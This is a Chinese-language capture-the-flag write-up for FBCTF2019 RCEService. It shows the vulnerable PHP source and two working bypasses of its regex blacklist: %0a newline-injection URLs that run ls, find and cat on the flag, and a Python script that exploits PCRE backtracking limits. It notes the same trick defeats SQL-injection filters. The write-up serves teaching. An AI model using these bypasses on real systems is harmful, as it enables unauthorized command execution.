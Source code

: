 # [FBCTF2019]RCEService

[题目地址](https://buuoj.cn/challenges#[FBCTF2019]RCEService)

进网站看了看，命令要用这种方式输入：

- {"cmd":"ls"}

但是过滤了好多东西，/过滤了，.过滤了，基本能过滤的都过滤了。这怎么玩，看了[wp](https://blog.csdn.net/mochu7777777/article/details/105151353)才知道有源码没给出。

```php
在网上找到的源码2333：

<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

真的是过滤得不剩什么了，但是有个问题，使用的preg_match无法匹配多行，^和$符号也无济于事，加个%0a换行符就绕过了。于是我们正常执行命令，只需要在命令头和尾加上%0a就能绕过了。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22ls%20/%22%0A}
    > bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

结果这次flag不在根目录下。[find](https://www.runoob.com/linux/linux-comm-find.html)命令找一找flag到底在哪里。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22/usr/bin/find%20/%20-name%20flag%22%0A}
    > /home/rceservice/flag

注意要用绝对路径/usr/bin/find。cat完事。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22/bin/cat%20/home/rceservice/flag%22%0A}
  > flag{a943a48b-b857-4021-a1f7-756b3bf6b600}

这题预期解是利用[pcre回溯](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)的问题。php的PCRE库使用了[NFA](https://zh.m.wikipedia.org/zh-cn/%E9%9D%9E%E7%A1%AE%E5%AE%9A%E6%9C%89%E9%99%90%E7%8A%B6%E6%80%81%E8%87%AA%E5%8A%A8%E6%9C%BA)作为正则引擎，NFA的运行方式如下。

假设要匹配的正则是<\?.\*[(`;?>].\*，输入是`<?php phpinfo();//aaaaa`。NFA一点一点读正则表达式。

**<**\?.\*[(`;?>].\*<Br>
**<**?php phpinfo();//aaaaa

正则的<匹配了输入的<。当前匹配成功则读取下一个字符。

**<\?**.\*[(`;?>].\*<br>
**<\?** php phpinfo();//aaaaa

?也匹配成功，继续。

**<\?.\***[(`;?>].\*<br>
**<\? php phpinfo();//aaaaa**

`.*`会匹配完接下来的所有字符，目前是没什么问题，但是读取下一个正则时就出问题了。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaaaa** ？

发现输入已经没东西匹配了。此时NFA开始回溯，回退之前匹配的字符。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaaa**a ？

回退出来的字符a仍然无法匹配[(`;?>]。继续回溯。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaa**aa ？

还是不行。回溯这一步骤会重复执行，直到回溯到下面的状态。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo()**;//aaaaa ？

这一步回溯回退出来的字符是`;`，匹配正则表达式[(`;?>]。便停止回溯，匹配上字符。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();**//aaaaa

最后的一个正则表达式匹配完接下来的所有内容。

**<\?.\*[(`;?>].\***<br>
**<\? php phpinfo();//aaaaa**

完全匹配成功，返回true。如果我们数一下，会发现回溯次数为8，而回溯次数是有上限的，默认是100万。如果输入字符串执行正则时回溯次数超过了这个上限，就会返回f
alse。此false非彼False，`var_dump(preg_last_error() === PREG_BACKTRACK_LIMIT_ERROR);`返回的结果是bool(true)。但这个false可以被强制转换，下面的waf：

```php
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

就可以利用pcre的回溯次数限制绕过。但是下面的waf：

```php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

就不可以。使用了===强等于，PREG_BACKTRACK_LIMIT_ERROR不等于0。利用这一特点，我们可以在payload末尾加一堆a，使其超过回溯限制。

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post("http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/", data={"cmd":payload})
#print(payload)
print(res.text)
```

## Flag
> flag{a943a48b-b857-4021-a1f7-756b3bf6b600}